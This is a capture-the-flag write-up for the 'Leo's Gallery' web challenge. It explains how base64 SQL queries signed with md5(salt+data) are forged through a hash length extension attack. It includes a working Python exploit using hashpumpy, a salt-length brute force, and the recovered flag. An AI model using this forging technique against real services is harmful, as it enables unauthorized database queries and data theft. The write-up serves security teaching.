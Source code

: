 # Writeup

> Name : Leo's Gallery
> 
> Category : web
> 
> Difficulty : medium
> 
> Description : I love this website ! It allows me to store all my wallpapers online, so cool !
>
> URL : `http://<host>:11337/`
> 

## English

We arrive on a wallpaper gallery website. We can observe 2 things :

- An upload part (it's just bait)
- A Gallery tab, that allows us to browse through the different galleries. 

When reviewing the source code, we see the values present in the form : 
```html
<form method="post">
    <select name="images">
        <option value="|8fc8cee62b7d63c442c0d331346c3ec9"></option>
        <option value="U0VMRUNUICogRlJPTSBsYW5kc2NhcGVzV2FsbHBhcGVyczs=|fadf91bd99bf7474edd040d6aaf3ed06">Landscapes</option>
        <option value="U0VMRUNUICogRlJPTSBhbmltYWxzV2FsbHBhcGVyczs=|2703d13c178ef89d4e614490b6b08c92">Animals</option>
        <option value="U0VMRUNUICogRlJPTSBhYnN0cmFjdFdhbGxwYXBlcnM7|59e6374a0cb4ed5401cd73a0e25cd804">Abstract</option>
        <option value="U0VMRUNUICogRlJPTSB1c2VyV2FsbHBhcGVyczs=|b480e2d69cb41122048c3be17a7adee0">Your wallpapers</option>
    </select>
    <input type="submit" value="Show Me !">
</form>
```

Each value looks something like that :
`U0VMRUNUICogRlJPTSBsYW5kc2NhcGVzV2FsbHBhcGVyczs=|fadf91bd99bf7474edd040d6aaf3ed06`

The first part is base64, the other one is md5 salt (which means that it is the md5 of a salt + a string).

The decoded base64 is : `SELECT * FROM landscapesWallpapers;`

It is used to tell the server which gallery to chose.

The md5 is the md5 of a salt concatenated with the base64. 

Hence values have this format : 
`base64(SQLrequest)|md5(salt+base64(SQLrequest))`

The first value only has md5, and no base64. This means that it's value is :`|md5(salt)`

Thus, we have the md5 of the salt alone. This algorithm is vulnerable to an attack called "hash length extension". This means that if we have md5(salt), we can get md5(salt+user_data).

To perform this attack, we can use several tools like HashPump or hash extender. Note that HashPump has a bug that makes it unusable for this challenge. Nevertheless, I forked the project and fixed the bug. It is present on my github if you wanna use this version, otherwise just use hash extender.

All that's needed is to tell the tool the length of the secret (aka the salt), which the player doesn't know. It just needs a bit of bruteforce to get the right one, as long as you have a valid SQL request (`SELECT 1;` is enough).

After a bit of bruteforce you get that the length is 26 and can then proceed with the challenge.

Here is a python code to execute any mysql request through this attack :
```python
import requests
import hashpumpy
import warnings
import base64

warnings.filterwarnings("ignore", category=DeprecationWarning)
url = "http://localhost:11337/gallery.php"
b64_req = base64.b64encode(b"select 1;")

hash,payload = hashpumpy.hashpump("8fc8cee62b7d63c442c0d331346c3ec9",'',b64_req,26)
r = requests.post(url,data={"images":payload+b"|"+hash.encode()})
print(r.text)
```

By modifying a bit this script to get the tables names and then the columns, we can get the final script to get the flag : 
```py
b64_req = base64.b64encode(b"select * from sup3r53cretd4t4;")
```
```html
<div class="images">
                        <img src="" alt="dvCTF{h4sh_l3ngth_3xt3ns1on_1s_funny}" title="dvCTF{h4sh_l3ngth_3xt3ns1on_1s_funny}" />
            </div>
```
